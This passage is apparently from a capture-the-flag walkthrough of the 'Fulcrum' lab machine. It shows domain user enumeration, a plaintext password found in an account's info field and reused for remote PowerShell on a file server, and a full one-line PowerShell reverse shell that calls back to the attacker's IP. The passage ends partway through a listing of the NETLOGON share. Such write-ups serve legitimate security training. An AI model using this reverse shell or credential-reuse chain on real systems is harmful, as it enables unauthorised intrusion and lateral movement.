b896                    0 1/1/1601 12:00:00 AM
a74d                    0 1/1/1601 12:00:00 AM
b1e3                    0 1/1/1601 12:00:00 AM
865f                    0 1/1/1601 12:00:00 AM
851f                    0 1/1/1601 12:00:00 AM
becd                    0 1/1/1601 12:00:00 AM
a60d                    0 1/1/1601 12:00:00 AM
9dc7                    0 1/1/1601 12:00:00 AM
bba7                    0 1/1/1601 12:00:00 AM
8182                    0 1/1/1601 12:00:00 AM
9f0f                    0 1/1/1601 12:00:00 AM
8fb8                    0 1/1/1601 12:00:00 AM
ac3e                    0 1/1/1601 12:00:00 AM
9816                    0 1/1/1601 12:00:00 AM
9e3e                    0 1/1/1601 12:00:00 AM
ab42                    0 1/1/1601 12:00:00 AM
a08c                    0 1/1/1601 12:00:00 AM
a7fc                    0 1/1/1601 12:00:00 AM
bf6a                    0 1/1/1601 12:00:00 AM
92f6                    0 1/1/1601 12:00:00 AM
9928                    0 1/1/1601 12:00:00 AM
bd97                    0 1/1/1601 12:00:00 AM
b8e9                    0 1/1/1601 12:00:00 AM
933e                    0 1/1/1601 12:00:00 AM
881b                    0 1/1/1601 12:00:00 AM
b7d8                    0 1/1/1601 12:00:00 AM
8d64                    0 1/1/1601 12:00:00 AM
8dc2                    0 1/1/1601 12:00:00 AM
8bd4                    0 1/1/1601 12:00:00 AM
ba38                    0 1/1/1601 12:00:00 AM
a6d6                    0 1/1/1601 12:00:00 AM
a91e                    0 1/1/1601 12:00:00 AM
8ada                    0 1/1/1601 12:00:00 AM
be7d                    0 1/1/1601 12:00:00 AM
b39f                    0 1/1/1601 12:00:00 AM
83c1                    0 1/1/1601 12:00:00 AM
a1cc                    0 1/1/1601 12:00:00 AM
880b                    0 1/1/1601 12:00:00 AM
a642                    0 1/1/1601 12:00:00 AM
b807                    0 1/1/1601 12:00:00 AM
9b07                    0 1/1/1601 12:00:00 AM
aabd                    0 1/1/1601 12:00:00 AM
8923                    0 1/1/1601 12:00:00 AM
b76c                    0 1/1/1601 12:00:00 AM
9c67                    0 1/1/1601 12:00:00 AM
b6e0                    0 1/1/1601 12:00:00 AM
966f                    0 1/1/1601 12:00:00 AM
bd0d                    0 1/1/1601 12:00:00 AM
be65                    0 1/1/1601 12:00:00 AM
a8e8                    0 1/1/1601 12:00:00 AM
b9b3                    0 1/1/1601 12:00:00 AM
b5a0                    0 1/1/1601 12:00:00 AM
9204                    0 1/1/1601 12:00:00 AM
a060                    0 1/1/1601 12:00:00 AM
94b5                    0 1/1/1601 12:00:00 AM
8b2d                    0 1/1/1601 12:00:00 AM
8eb4                    0 1/1/1601 12:00:00 AM
b4fd                    0 1/1/1601 12:00:00 AM
aeb1                    0 1/1/1601 12:00:00 AM
b584                    0 1/1/1601 12:00:00 AM
82fa                    0 1/1/1601 12:00:00 AM
81d2                    0 1/1/1601 12:00:00 AM
afb3                    0 1/1/1601 12:00:00 AM
a3df                    0 1/1/1601 12:00:00 AM
b95d                    0 1/1/1601 12:00:00 AM
a718                    0 1/1/1601 12:00:00 AM
8fb3                    0 1/1/1601 12:00:00 AM
9e53                    0 1/1/1601 12:00:00 AM
80c1                    0 1/1/1601 12:00:00 AM
b86b                    0 1/1/1601 12:00:00 AM
a304                    0 1/1/1601 12:00:00 AM
b592                    0 1/1/1601 12:00:00 AM
a91c                    0 1/1/1601 12:00:00 AM
bb1e                    0 1/1/1601 12:00:00 AM
b326                    0 1/1/1601 12:00:00 AM
8f99                    0 1/1/1601 12:00:00 AM
a431                    0 1/1/1601 12:00:00 AM
9777                    0 1/1/1601 12:00:00 AM
bccc                    0 1/1/1601 12:00:00 AM
9fb1                    0 1/1/1601 12:00:00 AM
b99c                    0 1/1/1601 12:00:00 AM
8eec                    0 1/1/1601 12:00:00 AM
b81e                    0 1/1/1601 12:00:00 AM
b49c                    0 1/1/1601 12:00:00 AM
a225                    0 1/1/1601 12:00:00 AM
a832                    0 1/1/1601 12:00:00 AM
87c5                    0 1/1/1601 12:00:00 AM
a1ae                    0 1/1/1601 12:00:00 AM
b398                    0 1/1/1601 12:00:00 AM
8ee9                    0 1/1/1601 12:00:00 AM
b254                    0 1/1/1601 12:00:00 AM
888a                    0 1/1/1601 12:00:00 AM
ae6b                    0 1/1/1601 12:00:00 AM
bdca                    0 1/1/1601 12:00:00 AM
bf63                    0 1/1/1601 12:00:00 AM
9ad6                    0 1/1/1601 12:00:00 AM
a678                    0 1/1/1601 12:00:00 AM
aaf1                    0 1/1/1601 12:00:00 AM
92c7                    0 1/1/1601 12:00:00 AM
9280                    0 1/1/1601 12:00:00 AM
a82a                    0 1/1/1601 12:00:00 AM
abbf                    0 1/1/1601 12:00:00 AM
9fa8                    0 1/1/1601 12:00:00 AM
a3d0                    0 1/1/1601 12:00:00 AM
92d3                    0 1/1/1601 12:00:00 AM
8694                    0 1/1/1601 12:00:00 AM
9c34                    0 1/1/1601 12:00:00 AM
8017                    0 1/1/1601 12:00:00 AM
bd35                    0 1/1/1601 12:00:00 AM
af2f                    0 1/1/1601 12:00:00 AM
8625                    0 1/1/1601 12:00:00 AM
b8e0                    0 1/1/1601 12:00:00 AM
b5d1                    0 1/1/1601 12:00:00 AM
a886                    0 1/1/1601 12:00:00 AM
ba74                    0 1/1/1601 12:00:00 AM
9123                    0 1/1/1601 12:00:00 AM
8a43                    0 1/1/1601 12:00:00 AM
953a                    0 1/1/1601 12:00:00 AM
9d18                    0 1/1/1601 12:00:00 AM
abe2                    0 1/1/1601 12:00:00 AM
a8f1                    0 1/1/1601 12:00:00 AM
9180                    0 1/1/1601 12:00:00 AM
94a8                    0 1/1/1601 12:00:00 AM
8f90                    0 1/1/1601 12:00:00 AM
9245                    0 1/1/1601 12:00:00 AM
a36c                    0 1/1/1601 12:00:00 AM
bb82                    0 1/1/1601 12:00:00 AM
9166                    0 1/1/1601 12:00:00 AM
aedd                    0 1/1/1601 12:00:00 AM
a819                    0 1/1/1601 12:00:00 AM
a57e                    0 1/1/1601 12:00:00 AM
a552                    0 1/1/1601 12:00:00 AM
ba17                    0 1/1/1601 12:00:00 AM
a274                    0 1/1/1601 12:00:00 AM
a64b                    0 1/1/1601 12:00:00 AM
b6b6                    0 1/1/1601 12:00:00 AM
bff8                    0 1/1/1601 12:00:00 AM
8b5c                    0 1/1/1601 12:00:00 AM
98aa                    0 1/1/1601 12:00:00 AM
ba03                    0 1/1/1601 12:00:00 AM
9797                    0 1/1/1601 12:00:00 AM
a62e                    0 1/1/1601 12:00:00 AM
a88d                    0 1/1/1601 12:00:00 AM
a542                    0 1/1/1601 12:00:00 AM
9794                    0 1/1/1601 12:00:00 AM
a247                    0 1/1/1601 12:00:00 AM
aadb                    0 1/1/1601 12:00:00 AM
94fa                    0 1/1/1601 12:00:00 AM
86df                    0 1/1/1601 12:00:00 AM
bc0e                    0 1/1/1601 12:00:00 AM
9683                    0 1/1/1601 12:00:00 AM
aed7                    0 1/1/1601 12:00:00 AM
ba34                    0 1/1/1601 12:00:00 AM
97f8                    0 1/1/1601 12:00:00 AM
a742                    0 1/1/1601 12:00:00 AM
ba52                    0 1/1/1601 12:00:00 AM
86fc                    0 1/1/1601 12:00:00 AM
bda3                    0 1/1/1601 12:00:00 AM
8255                    0 1/1/1601 12:00:00 AM
a193                    0 1/1/1601 12:00:00 AM
962b                    0 1/1/1601 12:00:00 AM
a88f                    0 1/1/1601 12:00:00 AM
9c61                    0 1/1/1601 12:00:00 AM
88e9                    0 1/1/1601 12:00:00 AM
8800                    0 1/1/1601 12:00:00 AM
b064                    0 1/1/1601 12:00:00 AM
a3a5                    0 1/1/1601 12:00:00 AM
be9b                    0 1/1/1601 12:00:00 AM
b417                    0 1/1/1601 12:00:00 AM
8d89                    0 1/1/1601 12:00:00 AM
9afb                    0 1/1/1601 12:00:00 AM
a735                    0 1/1/1601 12:00:00 AM
8f48                    0 1/1/1601 12:00:00 AM
8183                    0 1/1/1601 12:00:00 AM
9de2                    0 1/1/1601 12:00:00 AM
9856                    0 1/1/1601 12:00:00 AM
9b41                    0 1/1/1601 12:00:00 AM
a72d                    0 1/1/1601 12:00:00 AM
a67f                    0 1/1/1601 12:00:00 AM
834c                    0 1/1/1601 12:00:00 AM
a5d4                    0 1/1/1601 12:00:00 AM
83af                    0 1/1/1601 12:00:00 AM
b5a3                    0 1/1/1601 12:00:00 AM
bbf3                    0 1/1/1601 12:00:00 AM
9ca1                    0 1/1/1601 12:00:00 AM
b7a6                    0 1/1/1601 12:00:00 AM
b6d6                    0 1/1/1601 12:00:00 AM
a31b                    0 1/1/1601 12:00:00 AM
b8c9                    0 1/1/1601 12:00:00 AM
aac3                    0 1/1/1601 12:00:00 AM
a2ec                    0 1/1/1601 12:00:00 AM


PS webserver\webuser@WEBSERVER Documents>
```

```sh
root@kali:~/fulcrum/winrm# vim domain-lastlogon
root@kali:~/fulcrum/winrm# cat domain-lastlogon | grep -v 1601
Administrator          29 11/20/2017 9:30:22 PM
BTables                18 11/20/2017 7:35:13 PM
8631                    0 10/5/2017 8:43:41 PM
8f56                    0 10/5/2017 8:43:41 PM
a721                    0 10/5/2017 8:43:41 PM
a8fe                    0 10/5/2017 8:43:41 PM
9eaa                    0 10/5/2017 8:43:41 PM
a26a                    0 10/5/2017 8:43:41 PM
a3b9                    0 10/5/2017 8:43:41 PM
b886                    0 10/5/2017 8:43:41 PM
9ae0                    0 10/5/2017 8:43:42 PM
828b                    0 10/5/2017 8:43:42 PM
8f9b                    0 10/5/2017 8:43:42 PM
85a6                    0 10/5/2017 8:43:42 PM
ad54                    0 10/5/2017 8:43:42 PM
b92a                    0 10/5/2017 8:43:42 PM
b2fd                    0 10/5/2017 8:43:42 PM
b785                    0 10/5/2017 8:43:42 PM
923a                    7 11/20/2017 8:07:26 PM
root@kali:~/fulcrum/winrm#
root@kali:~/fulcrum/winrm# cat domain-lastlogon | wc -l
1434
root@kali:~/fulcrum/winrm# cat domain-lastlogon | grep -v 1601 | wc -l
19
root@kali:~/fulcrum/winrm#
```

```sh
PS webserver\webuser@WEBSERVER Documents> Get-DomainUser -Credential $cred -DomainController dc.fulcrum.local BTables


logoncount            : 18
badpasswordtime       : 10/12/2017 2:29:16 PM
description           : Has logon rights to the file server
distinguishedname     : CN=Bobby Tables,OU=People,DC=fulcrum,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : Bobby Tables
lastlogontimestamp    : 11/20/2017 7:35:13 PM
userprincipalname     : BTables@fulcrum.local
name                  : Bobby Tables
objectsid             : S-1-5-21-3166400326-2861236044-2715240360-1104
samaccountname        : BTables
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 11/20/2017 7:35:13 PM
instancetype          : 4
objectguid            : 4f1d3558-9372-4b64-bb29-7def94710d6f
lastlogon             : 11/20/2017 7:35:13 PM
info                  : Password set to ++FileServerLogon12345++
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=fulcrum,DC=local
dscorepropagationdata : {10/2/2017 6:09:28 PM, 10/2/2017 6:06:57 PM, 1/1/1601 12:00:00 AM}
whencreated           : 10/2/2017 6:06:57 PM
badpwdcount           : 0
cn                    : Bobby Tables
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
usncreated            : 12878
primarygroupid        : 513
pwdlastset            : 10/2/2017 7:16:24 PM
usnchanged            : 143447
lastlogoff            : 1/1/1601 12:00:00 AM


PS webserver\webuser@WEBSERVER Documents>
```

```sh
PS webserver\webuser@WEBSERVER Documents> $BTPass = ConvertTo-SecureString '++FileServerLogon12345++' -AsPlainText -Force
PS webserver\webuser@WEBSERVER Documents> $cred = New-Object System.Management.Automation.PSCredential('FULCRUM\BTABLES',$BTPass)
PS webserver\webuser@WEBSERVER Documents> $cred

UserName                            Password
--------                            --------
FULCRUM\BTABLES System.Security.SecureString

PS webserver\webuser@WEBSERVER Documents> Invoke-Command -ComputerName File.fulcrum.local -Credential $cred -ScriptBlock { whoami }
fulcrum\btables
PS webserver\webuser@WEBSERVER Documents> Invoke-Command -ComputerName File.fulcrum.local -Credential $cred -ScriptBlock { hostname }
FILE
PS webserver\webuser@WEBSERVER Documents> Invoke-Command -Computer File.fulcrum.local -Credential $cred -ScriptBlock { 53,80,443,445 | % { Test-NetConnection -ComputerName 10.10.14.16 -Port $_ } }
```

###### Shell on FILE

[`Invoke-PowerShellTcpOneLine.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

`Invoke-PowerShellTcpOneLine.ps1`

```PowerShell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```sh
PS webserver\webuser@WEBSERVER Documents> Invoke-Command -Computer File.fulcrum.local -Credential $cred -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

```sh
root@kali:~/fulcrum/winrm# nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.62] 33588

PS C:\Users\BTables\Documents> hostname
FILE
PS C:\Users\BTables\Documents> whoami
fulcrum\btables
PS C:\Users\BTables\Documents> cd ..
PS C:\Users\BTables> cd Desktop
PS C:\Users\BTables\Desktop> dir


    Directory: C:\Users\BTables\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/4/2017  10:12 PM             34 user.txt


PS C:\Users\BTables\Desktop> type user.txt
fce52521c8f872b514f037fada78daf4
PS C:\Users\BTables\Desktop>
```

```sh
PS C:\Users\BTables\Desktop> net use z: \\dc.fulcrum.local\netlogon /user:FULCRUM\btables ++FileServerLogon12345++
The command completed successfully.

PS C:\Users\BTables\Desktop> z:
PS Z:\> dir


    Directory: Z:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/1937  11:37 AM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-ar---        3/13/1937  11:37 AM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
-ar---        3/13/1937  11:37 AM            340 0010183b-2f84-4d4a-9490-b5ae922e3ba1.ps1
-ar---        3/13/1937  11:37 AM            340 001985e5-4b19-426a-96fe-927a972a6fed.ps1
-ar---        3/13/1937  11:37 AM            340 0033f8d7-8ede-4186-83fa-6a17b966f1b9.ps1
-ar---        3/13/1937  11:37 AM            340 0048814b-2df6-43ab-a54b-13c93fd732bd.ps1
-ar---        3/13/1937  11:37 AM            340 007f63bb-c0c1-46ff-9edc-38f00cf36417.ps1
-ar---        3/13/1937  11:37 AM            340 008487a7-48dd-472b-a4fb-24fb7d95236e.ps1
-ar---        3/13/1937  11:37 AM            340 008744ec-7b17-4017-8932-cad4b9ea6c64.ps1
-ar---        3/13/1937  11:37 AM            340 009f2614-de60-4a32-a6b1-ac8a57e23fd6.ps1
-ar---        3/13/1937  11:37 AM            340 00b2dac5-71a4-4b4c-a3cb-c6c1444b52c4.ps1
-ar---        3/13/1937  11:37 AM            340 00d50b3f-1b26-49b9-8963-477b86d8e6c8.ps1
-ar---        3/13/1937  11:37 AM            340 01098ea6-83ad-41cb-b01b-20c90460defd.ps1
-ar---        3/13/1937  11:37 AM            340 010ee533-f2da-4442-94c8-b7d7e4fbd187.ps1
-ar---        3/13/1937  11:37 AM            340 013cc5e2-66b4-4fc3-a067-88af5edad70e.ps1
-ar---        3/13/1937  11:37 AM            340 015b16ef-13c3-45f4-bf35-f2407d44b79c.ps1
-ar---        3/13/1937  11:37 AM            340 0187735f-80d4-4eaa-8e03-7c9b5064c068.ps1
-ar---        3/13/1937  11:37 AM            340 01ab0501-5bd0-4553-9145-0cee9083b5b1.ps1
-ar---        3/13/1937  11:37 AM            340 01b870db-686b-40e4-b59b-fcd6f10c1c19.ps1
-ar---        3/13/1937  11:37 AM            340 0216c3df-c1c7-4738-973e-7c43d6fd463b.ps1
-ar---        3/13/1937  11:37 AM            340 0230e956-ff67-49e1-b49e-226d3cec5d6f.ps1
-ar---        3/13/1937  11:37 AM            340 02334049-af91-4098-88c0-88265da70b8f.ps1
-ar---        3/13/1937  11:37 AM            340 02464222-afb5-4bc1-b55d-c67f1980de70.ps1
-ar---        3/13/1937  11:37 AM            340 0250e29b-d5ae-4398-b39c-2ca5a501de8a.ps1
-ar---        3/13/1937  11:37 AM            340 02546328-e4a8-4a93-a45a-51c90acd3686.ps1
-ar---        3/13/1937  11:37 AM            340 02758a3d-e6fa-4643-88d5-3c7a3e98f753.ps1
-ar---        3/13/1937  11:37 AM            340 029854b0-705d-4608-b572-588e071386e6.ps1
-ar---        3/13/1937  11:37 AM            340 02a92241-4e60-4a23-aae6-8ea51aaa96c9.ps1
-ar---        3/13/1937  11:37 AM            340 02b6a1dc-e589-4181-8af5-46eec87f0393.ps1
-ar---        3/13/1937  11:37 AM            340 02e4da0d-ee5a-4c38-85ae-8ca466a04d1d.ps1
-ar---        3/13/1937  11:37 AM            340 02f50abb-93c3-45d6-add8-54e1a6be42de.ps1
-ar---        3/13/1937  11:37 AM            340 02fd1c84-b8f8-4bb0-87d7-52ca6586b694.ps1
-ar---        3/13/1937  11:37 AM            340 03152ac8-e15c-4f45-945b-55992591725a.ps1
-ar---        3/13/1937  11:37 AM            340 0331d218-3734-4916-8c80-3f7067c7a2cd.ps1
-ar---        3/13/1937  11:37 AM            340 033629c8-43da-428a-8c67-b61342621c2b.ps1
-ar---        3/13/1937  11:37 AM            340 0349ee85-f1a2-454f-9c90-9144f06f6a5a.ps1
-ar---        3/13/1937  11:37 AM            340 0371be99-34ba-42fb-9440-56ca9a8f09e0.ps1
-ar---        3/13/1937  11:37 AM            340 039511bb-dd73-40be-bd8c-511a2ac53920.ps1
-ar---        3/13/1937  11:37 AM            340 03b6de2a-3ff9-442c-bf52-95ab3ee3ff81.ps1
-ar---        3/13/1937  11:37 AM            340 03bbd175-87fc-476c-bada-666687cbf69d.ps1
-ar---        3/13/1937  11:37 AM            340 03d0379a-19f4-42e6-8f15-04f8f6e11f87.ps1
-ar---        3/13/1937  11:37 AM            340 0401c27a-5a94-4422-9f83-17259a6cc81e.ps1
-ar---        3/13/1937  11:37 AM            340 0404b1f8-4746-46d1-b1bc-6fb555f8b17f.ps1
-ar---        3/13/1937  11:37 AM            340 0429c5d4-16bf-48cf-bae5-a978b4247b3b.ps1
-ar---        3/13/1937  11:37 AM            340 0430c3f6-d3a0-4fce-8091-1f605a4657ae.ps1
-ar---        3/13/1937  11:37 AM            340 04332e2a-870f-4b36-bd66-7cf819029129.ps1
-ar---        3/13/1937  11:37 AM            340 044e4847-85e7-46e6-8b95-a7f1af4ba289.ps1
-ar---        3/13/1937  11:37 AM            340 0492e094-305c-47e9-8051-0461cc687b1c.ps1
-ar---        3/13/1937  11:37 AM            340 04a1c5e7-4d87-44c3-9a92-bf3d0aad12f3.ps1
-ar---        3/13/1937  11:37 AM            340 04d2ddfd-9eeb-4ae7-a942-8de6715a66b2.ps1
-ar---        3/13/1937  11:37 AM            340 051a0444-0439-4c4f-8be6-dd3b5ad20c44.ps1
-ar---        3/13/1937  11:37 AM            340 052dd3ec-47b1-42ca-8fa7-8bc07edb4a2a.ps1
-ar---        3/13/1937  11:37 AM            340 055079b1-5209-4524-bc92-1d3f7bd8a1cd.ps1
-ar---        3/13/1937  11:37 AM            340 05a2e734-788c-4228-ad08-3a451336e91c.ps1
-ar---        3/13/1937  11:37 AM            340 05ad06b4-f125-4c5b-8bbe-df7f53e5944e.ps1
-ar---        3/13/1937  11:37 AM            340 05cffb7d-fe87-4561-98ad-bf8bf3eb3c80.ps1
-ar---        3/13/1937  11:37 AM            340 05f5fad7-c22c-491a-82ef-d9f2133f833f.ps1
-ar---        3/13/1937  11:37 AM            340 06049cb7-98f7-4778-af83-bd20a6646999.ps1
-ar---        3/13/1937  11:37 AM            340 0621cb05-f3dd-4ebb-bae4-297053f1b0ef.ps1
-ar---        3/13/1937  11:37 AM            340 0626d059-77a7-4172-aac0-46d7789f5231.ps1
-ar---        3/13/1937  11:37 AM            340 06409cce-86f3-47ea-a445-63b9509469a8.ps1
-ar---        3/13/1937  11:37 AM            340 064271a0-4334-4434-a41f-7b4a321bef5a.ps1
-ar---        3/13/1937  11:37 AM            340 0642e1cb-e823-4d93-9c40-9c531e8871e0.ps1
-ar---        3/13/1937  11:37 AM            340 069c3af0-cce4-47d0-8d8a-ba377251eb23.ps1
-ar---        3/13/1937  11:37 AM            340 06acb72f-99af-466e-8147-62f4d534b8c4.ps1
-ar---        3/13/1937  11:37 AM            340 06d732ca-43d8-4df6-b1a7-eb32ae2b9b16.ps1
-ar---        3/13/1937  11:37 AM            340 06dc62b7-354b-471d-8427-4c7500170fc7.ps1
-ar---        3/13/1937  11:37 AM            340 07318580-5b13-4056-9c5f-39530bef79b4.ps1
-ar---        3/13/1937  11:37 AM            340 0750d78a-6dce-4f05-84ee-5e1d57e7f465.ps1
-ar---        3/13/1937  11:37 AM            340 076faa2c-8d6f-4f9d-9123-e70a72c4efd2.ps1
-ar---        3/13/1937  11:37 AM            340 077c8dbd-55ba-4ab2-aa17-79376a2072a9.ps1
-ar---        3/13/1937  11:37 AM            340 07a2e86e-1014-40c1-b70e-b95b39c71a59.ps1
-ar---        3/13/1937  11:37 AM            340 07bb31e4-b794-4056-9f04-6302c9ccae07.ps1
-ar---        3/13/1937  11:37 AM            340 07d70b93-1709-4862-9a86-1e6311b17e7e.ps1
-ar---        3/13/1937  11:37 AM            340 085f7856-5dba-41ba-806a-d1cf1ccbf723.ps1
-ar---        3/13/1937  11:37 AM            340 08844937-1562-4d58-bc1e-a61ad94cdc94.ps1
-ar---        3/13/1937  11:37 AM            340 08982528-d579-426c-ae08-747a2b83ab49.ps1
-ar---        3/13/1937  11:37 AM            340 08a1319b-ca5a-4ed3-9c94-253cbf8925d7.ps1
-ar---        3/13/1937  11:37 AM            340 0926c470-e1d5-4af7-a1c9-c83da5dfe176.ps1
-ar---        3/13/1937  11:37 AM            340 095e32ae-a230-4ce0-9fae-e0d2dc4d0e4b.ps1
-ar---        3/13/1937  11:37 AM            340 09625e89-c060-4302-be2e-b2f32e071a79.ps1
-ar---        3/13/1937  11:37 AM            340 096d4674-429e-42dc-bde3-01ecaf01396e.ps1
-ar---        3/13/1937  11:37 AM            340 099080cc-7c07-4e07-9018-b609752d986c.ps1
-ar---        3/13/1937  11:37 AM            340 09cdf0c3-2825-4d0a-a4fc-8540fddaf254.ps1
-ar---        3/13/1937  11:37 AM            340 09f11562-7e4e-4af3-aece-fede48086f26.ps1
-ar---        3/13/1937  11:37 AM            340 0a0c7ee0-a935-492d-83a3-bbaf9f1ec2ff.ps1
-ar---        3/13/1937  11:37 AM            340 0a18e571-e0a1-4630-a64f-b540a14ab407.ps1
-ar---        3/13/1937  11:37 AM            340 0a398030-a340-4e19-b792-6eed9427b315.ps1
-ar---        3/13/1937  11:37 AM            340 0a3e5e14-b902-43ac-be99-3aea01867962.ps1
-ar---        3/13/1937  11:37 AM            340 0a4cc4b9-800b-4691-bc83-b91bbc8d97f1.ps1
-ar---        3/13/1937  11:37 AM            340 0a584b7b-4e37-4991-978b-0d120e4a704a.ps1
-ar---        3/13/1937  11:37 AM            340 0a807b37-b330-4ad3-9aaa-bf5966668874.ps1
-ar---        3/13/1937  11:37 AM            340 0a808179-fc82-4780-acc9-a6648fb48309.ps1
-ar---        3/13/1937  11:37 AM            340 0ab2f856-376f-4931-9269-b170626b1879.ps1
-ar---        3/13/1937  11:37 AM            340 0ae10c16-0646-48ac-95f0-bdb2499c3434.ps1
-ar---        3/13/1937  11:37 AM            340 0af99b77-0938-4ff5-b13d-db30d0b1e370.ps1
-ar---        3/13/1937  11:37 AM            340 0b04dba0-4d3c-484c-be80-a75d869e2edb.ps1
-ar---        3/13/1937  11:37 AM            340 0b2695df-f3a6-4537-bb8b-d945a5639997.ps1
-ar---        3/13/1937  11:37 AM            340 0b46eabe-a89e-4428-b88c-3c51af8e432f.ps1
-ar---        3/13/1937  11:37 AM            340 0b4dac70-8057-4a99-b8fb-04997b609b65.ps1
-ar---        3/13/1937  11:37 AM            340 0b606424-65a7-491b-af8c-76875db643e9.ps1
-ar---        3/13/1937  11:37 AM            340 0b79e565-1cfc-4aea-9592-eedd2adb7f29.ps1
-ar---        3/13/1937  11:37 AM            340 0bebd174-86ff-4a34-98b8-676e9b002a34.ps1
-ar---        3/13/1937  11:37 AM            340 0c26d940-6865-4baa-a3ba-617db3a13e11.ps1
-ar---        3/13/1937  11:37 AM            340 0c324238-b665-4430-a034-cacbcb4419de.ps1
-ar---        3/13/1937  11:37 AM            340 0c38e6ba-e69c-4a14-a8a3-dff768de59d6.ps1
-ar---        3/13/1937  11:37 AM            340 0c41342f-a300-48cc-b13c-de1ebf6f9827.ps1
-ar---        3/13/1937  11:37 AM            340 0c76430d-21f1-45f0-a2f5-c3409bcd6851.ps1
-ar---        3/13/1937  11:37 AM            340 0c86bd1e-c70b-4f6b-9a00-4c87ab80ac14.ps1
-ar---        3/13/1937  11:37 AM            340 0c887430-713d-489e-894b-8c11a37e85ea.ps1
-ar---        3/13/1937  11:37 AM            340 0c9be6cb-18d3-499d-8821-f041e30ca59c.ps1
-ar---        3/13/1937  11:37 AM            340 0ca4890b-4b5c-48ec-8bdf-fc88cb2dc8a3.ps1
-ar---        3/13/1937  11:37 AM            340 0cd466d5-b74c-4bf9-ab3a-87ee1ac0b55c.ps1
-ar---        3/13/1937  11:37 AM            340 0cd6a2c6-2675-45c2-bcd6-77a285a6c946.ps1
-ar---        3/13/1937  11:37 AM            340 0cdb93eb-0e15-4ad3-8db6-6993ae8982d6.ps1
-ar---        3/13/1937  11:37 AM            340 0ce0dd8d-e629-413a-a776-5d2f461c0b31.ps1
-ar---        3/13/1937  11:37 AM            340 0ce32ecd-ad21-4fb5-a6f3-c7882e46876e.ps1
-ar---        3/13/1937  11:37 AM            340 0ce6c3b2-ca97-4adf-8a3d-350e78e16598.ps1
-ar---        3/13/1937  11:37 AM            340 0d132337-008c-4c08-8f6c-7b7f5646d0bc.ps1
-ar---        3/13/1937  11:37 AM            340 0d34d680-5b4f-4655-a480-bb9e3e4ca787.ps1
-ar---        3/13/1937  11:37 AM            340 0d3aa29f-743f-4a0f-98fa-5555a25fd52e.ps1
-ar---        3/13/1937  11:37 AM            340 0d4cbeb0-0bc2-4e0a-a475-7e5f4d88eefc.ps1
-ar---        3/13/1937  11:37 AM            340 0d61b608-0e1c-4980-b9dd-755f154d4301.ps1
-ar---        3/13/1937  11:37 AM            340 0d6a91ff-67a6-4bc2-97b0-929a834b0621.ps1
-ar---        3/13/1937  11:37 AM            340 0d83d32c-9751-42ed-a51c-7622b6a62421.ps1
-ar---        3/13/1937  11:37 AM            340 0d9bff3a-9efb-4395-829d-c68a9168b4cc.ps1
-ar---        3/13/1937  11:37 AM            340 0da645be-9642-485f-9118-df02af71472c.ps1
-ar---        3/13/1937  11:37 AM            340 0dae9d98-9dbb-44ff-a92d-93fc794b2e88.ps1
-ar---        3/13/1937  11:37 AM            340 0dc040fb-30d5-4d98-a3c6-4ef804c1b74e.ps1
-ar---        3/13/1937  11:37 AM            340 0dce9a31-7917-40b9-a637-fadd16fede92.ps1
-ar---        3/13/1937  11:37 AM            340 0dde8b84-ed3d-4676-a74a-2b7e06526927.ps1
-ar---        3/13/1937  11:37 AM            340 0df5748d-7f57-4617-af3f-d75c9a16ce0c.ps1
-ar---        3/13/1937  11:37 AM            340 0e21654c-46ad-41af-8e3d-e38907265ed0.ps1
-ar---        3/13/1937  11:37 AM            340 0e37b48f-ad43-4627-b7de-8a35a5fd51c3.ps1
-ar---        3/13/1937  11:37 AM            340 0e6d36d0-ad9e-423b-825c-2580b22d5a17.ps1
-ar---        3/13/1937  11:37 AM            340 0e902b3d-1bd2-4bd0-8221-5208d8a42c5c.ps1
-ar---        3/13/1937  11:37 AM            340 0ea21648-da9d-4b7e-ad48-9d08d37031ca.ps1
-ar---        3/13/1937  11:37 AM            340 0ea73b86-ead4-4d50-a851-aed2a300876b.ps1
-ar---        3/13/1937  11:37 AM            340 0eb717c1-de0c-41be-be19-bdc6fa38d16e.ps1
-ar---        3/13/1937  11:37 AM            340 0eba3ff7-f54e-4e71-9d95-35bb38b2813d.ps1
-ar---        3/13/1937  11:37 AM            340 0ee3b799-c52f-4980-bd37-5c1809711dec.ps1
-ar---        3/13/1937  11:37 AM            340 0f55735a-9741-4338-a628-9c015ec83caa.ps1
-ar---        3/13/1937  11:37 AM            340 0f5deaef-7cb1-4871-8735-247663bcf257.ps1
-ar---        3/13/1937  11:37 AM            340 0f70efbc-0416-4f78-a350-4ef0b50d8b72.ps1
-ar---        3/13/1937  11:37 AM            340 0f78dabb-5e49-4a66-85f3-df1d4f0fdff7.ps1
-ar---        3/13/1937  11:37 AM            340 0f905538-c40e-4ac5-be75-99690a584857.ps1
